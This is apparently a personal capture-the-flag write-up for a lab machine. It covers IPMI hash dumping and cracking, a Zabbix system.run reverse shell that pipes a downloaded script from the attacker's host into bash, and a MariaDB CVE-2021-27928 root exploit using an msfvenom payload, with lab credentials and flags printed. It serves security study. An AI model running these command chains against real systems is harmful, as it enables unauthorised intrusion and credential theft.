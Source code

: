 # User
## Web
Attempting to visit 10.129.228.103 redirects to http://shibboleth.htb/ so we need to add this to our hosts file in dnsmasq. #dnsmasq
Now we enum for subdomains use #gobuster
```sh
gobuster dns -d shibboleth.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --wildcard
```
And any folders using #dirsearch
```sh
dirsearch -u http://shibboleth.htb
```
Now, so far we haven't found anything useful. So we'll do a UDP nmap scan. Just to be sure this is what we have. While this runs, we'll also run a #nikto scan.
```sh
nikto -url http://shibboleth.htb/    
sudo nmap -sU  shibboleth.htb
```
From this we find IPMI is open
## IPMI 
#ipmi
```sh
sudo apt install ipmitool
ipmitool -I lanplus -H shibboleth.htb -U '' -P '' user list
```
this fails. Let's use hacktricks to help find something else we can maybe do.
## Metasploit
#metasploit
#ipmi-exploit
```sh
use auxiliary/scanner/ipmi/ipmi_dumphashes
set rhosts 10.129.228.103
set OUTPUT_HASHCAT_FILE IPMI_Hash
run
```
This yields
```
Administrator:320b7a6e02020000a29cf531a0d10b55db4d3dbccb9bb547467cf5f75569b69140555d772cff653ba123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:541328d6d5c2d6f15a109c17a27686b574ab20aa
```
Let's cracks it. after deleting the IP and Username from the file.
#hashcat 
```sh
hashcat IPMI_Hash ~/Downloads/rockyou.txt
```
This yields
```
ilovepumkinpie1
```
It was about here after digging into ipmitool that I realized that I fucked up, and my dnsmasq was borked. So I tried stuff again with #ffuf
## Enum
```sh
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://shibboleth.htb -H "Host: FUZZ.shibboleth.htb" -fw 18
```
This yielded
```
monitor                 [Status: 200, Size: 3689, Words: 192, Lines: 30, Duration: 54ms]
monitoring              [Status: 200, Size: 3689, Words: 192, Lines: 30, Duration: 55ms]
zabbix                  [Status: 200, Size: 3689, Words: 192, Lines: 30, Duration: 54ms]
```
## Zabbix Exploitation
So we log into #zabbix and then go to -> settings -> hosts  [Exploit Zabbix for Reverse Shell – Cyber Security Architect | Red/Blue Teaming | Exploit/Malware Analysis (rioasmara.com)](https://rioasmara.com/2022/04/16/exploit-zabbix-for-reverse-shell/)
- Next we select "New Item" (Top right)
- Then by the "key" filter we click on "select"
	- Here we find "system.run" (hell yes)
#reverse-shell-python3-http_server
```sh
#execute on your own host.
mkdir rev_shell
cd rev_shell
echo '/bin/bash -c "bash -i >& /dev/tcp/10.10.14.5/8008 0>&1"' >the_shell 
python3 -m http.server -p 80
```
Have the settings for the server look like this. 
```sh
system.run[curl --http0.9 10.10.14.5/the_shell|bash,no_wait]
```

SPEC CURL 0.9
![[Pasted image 20240522121814.png]]
Then click "test" -> get value and test.
```sh
#this is in your nc terminal
su ipmi-svc #we only have one password, enter that.
ilovepumkinpie1
cat \home\ipmi-svc\user.txt
```
0c4c0fb46dc969db297bf9497412f3d7
# Root

First let's make a non-shit terminal
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
## Enum
```sh
systemctl -a #reveals mysql as a process. Neat
ss -tnlp
cd /etc/zabbix/
cat zabbix.conf | grep -v "#"
```
#zabbix-config-creds can be found then here
#mysql-creds
```
DBUser=zabbix
DBPassword=bloooarskybluh
```
## MySQL
#mysql
```sh
mysql -u zabbix -p #then enter in the password.
```

```mysql
show databases;
use zabbix
show tables;
select * from users;
```
yields for administrator:
```
$2y$10$L9tjKByfruByB.BaTQJz/epcbDQta4uRM/KySxSZTwZkMGuKTPPT2
$2y$10$FhkN5OCLQjs3d6C.KtQgdeCc485jKBWPW4igFVEgtIP3jneaN7GQe
```
Let's crack em'
#hashcat
```
hashcat mysql_adminHashes ~/Downloads/rockyou.txt -m 3200
```
7 days seems unreasonable. So let's find an exploit
# Maria
#mariadb-exploit #10-3-25-MariaDB-0
[shamo0/CVE-2021-27928-POC: CVE-2021-27928-POC (github.com)](https://github.com/shamo0/CVE-2021-27928-POC)
So we find a version for mariaDB because of the version we found when we logged in.

```sh
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=800 -f elf-so -o MariaDBExploit2.so
python3 -m http.server
```
Back on our target
```sh
exit
cd /tmp
wget http://10.10.14.5:8000/MariaDBExploit2.so
```
Back on our host.
```
ctrl+c
nc -nlvp 800
```
Back on our target.
```sh
mariadb -u zabbix -p
bloooarskybluh
```
```mysql
SET GLOBAL wsrep_provider="/tmp/MariaDBExploit2.so";
```
now it should've worked.
```
cat /root/root.txt
```
0b197764bf0d6e38c6e3f65055823267


